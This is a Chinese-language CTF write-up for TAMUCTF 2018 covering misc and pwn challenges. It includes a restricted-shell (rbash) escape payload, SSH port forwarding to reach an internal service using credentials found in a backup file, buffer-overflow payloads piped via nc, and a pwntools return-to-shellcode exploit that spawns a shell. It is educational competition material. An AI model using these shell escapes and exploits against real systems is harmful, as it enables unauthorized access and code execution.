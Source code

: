 ```yaml
---
title: TAMUCTF-2018
tags:
    - Write-up
    - tamuctf
lang: zh-tw
cotegories:
    - Write-up
    - tamuctf
    - 2018
---
```


太多情境題了
web 滿滿的水題有點無言
只寫一些值得紀錄的

## Misc
### you can run, you can hide [25]

```
find the hidden flag.

ssh tamuctf@shell1.ctf.tamu.edu -p 2223
password: tamuctf
```

ssh 進去之後發現他是用`rbash`，意外在網路上找到神奇 payload (到現在還不知道原理)
`BASH_CMDS[a]=/bin/sh;a`
[Source](https://www.cnblogs.com/xiaoxiaoleo/p/8450379.html)

目錄裡面直接就有flag了
`gigem{TAMU_secret_society_qSD358OUYGcezTlFbqeh}`

後面神隊友給了另一個 payload (在看連入的連線的時候發現好像大部分都是這樣連入的)
`ssh tamuctf@shell1.ctf.tamu.edu -p 2223 -t "bash --noprofile"`

### enum [150]

```
Find the hidden flag.
You do not need to bruteforce. Don't do it.

ssh tamuctf@shell2.ctf.tamu.edu -p 2222
password: tamuctf
```

這題卡很久，最後靠隊友 carry
連續前面一題，繞過之後我一開始在`/var/backups/`找到`.srv.bak`，裡面放了帳號跟密碼
後來就是隊友carry的部分了
用`ps aux`指令發現有一個程序是執行`/bin/bash -c /usr/sbin/service ssh restart && cd /.administrators && /usr/bin/python /.administrators/pyserver.py 9000`
後來在自己的電腦執行`ssh -L 1234:localhost:9000 tamuctf@shell2.ctf.tamu.edu -p 2222`(port forwarding)，在自己的瀏覽器開啟`localhost:1234`再輸入之前找到的帳號密碼就可以得到 flag 了
`gigem{pivot_piv0t_P1V0T_20975430987aff92qf89qf}`

## Pwn
### Pwn1
只是覆蓋`cmp    DWORD PTR [ebp-0xc],0xf007ba11`而已

Payload:
```
python -c "print 'a'*23 + '\x11\xba\x07\xf0'" | nc pwn.ctf.tamu.edu 4321
```

### Pwn2
執行`echo`函式時，可以 Overflow 跳到`print_flag`

Payload:
```
python -c "print 'a'*243 + '\x4b\x85\x04\x08'" | nc pwn.ctf.tamu.edu 4322
```

### Pwn3
觀察了一下會發現輸出的 random number 會是 buffer 的起始地址，所以方向就很清楚了 `return to shellcode`

Payload:
{% codeblock lang:python %}
#!/usr/bin/env python

from pwn import *

#r = process('./pwn3')
#r = remote('0.0.0.0', 8888)
r = remote('pwn.ctf.tamu.edu', 4323)
context.log_level = 'debug'
context.arch = 'i386'

r.recvuntil('Your random number ')
addr = int(r.recv(10).strip(), 16)

shellcode = asm(shellcraft.i386.linux.sh())

payload = shellcode + 'a' * (242-len(shellcode)) + p32(addr)

print hex(addr)
print p32(addr)
print payload

r.recvuntil('?')
#raw_input('########')
r.sendline(payload)
r.interactive()
{% endcodeblock %}

